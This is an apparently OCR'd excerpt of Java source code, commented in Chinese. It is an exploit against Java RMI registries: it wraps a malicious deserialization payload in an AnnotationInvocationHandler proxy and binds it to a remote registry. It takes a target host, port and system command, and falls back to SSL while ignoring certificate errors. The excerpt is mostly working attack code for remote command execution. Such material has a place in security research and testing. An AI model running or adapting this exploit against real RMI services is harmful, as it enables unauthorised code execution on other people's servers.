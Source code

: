 ```java
      String name    = "test" + System.nanoTime();

      // 创建一个含有Payload的恶意map
      Map<String, Object> map = new HashMap();
      map.put(name, payload);

      // 获取AnnotationInvocationHandler类对象
      Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

      // 获取AnnotationInvocationHandler类的构造方法
      Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

      // 设置构造方法的访问权限
      constructor.setAccessible(true);

      // 实例化AnnotationInvocationHandler，
      // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, map);
      InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, map);

      // 使用动态代理创建出Remote类型的Payload
      Remote remote = (Remote) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, annHandler
      );

      try {
         // 发送Payload
         registry.bind(name, remote);
      } catch (Throwable e) {
         e.printStackTrace();
      }
   }

   public static void main(String[] args) throws Exception {
      if (args.length == 0) {
         // 如果不指定连接参数默认连接本地RMI服务
         args = new String[]{RMI_HOST, String.valueOf(RMI_PORT), "open -a Calculator.app"};
      }

      // 远程RMI服务IP
      final String host = args[0];

      // 远程RMI服务端口
      final int port = Integer.parseInt(args[1]);

      // 需要执行的系统命令
      final String command = args[2];

      // 获取远程Registry对象的引用
      Registry registry = LocateRegistry.getRegistry(host, port);

      try {
         // 获取RMI服务注册列表(主要是为了测试RMI连接是否正常)
         String[] regs = registry.list();

         for (String reg : regs) {
            System.out.println("RMI:" + reg);
         }
      } catch (ConnectIOException ex) {
         // 如果连接异常尝试使用SSL建立SSL连接,忽略证书信任错误，默认信任SSL证书
         registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
      }

```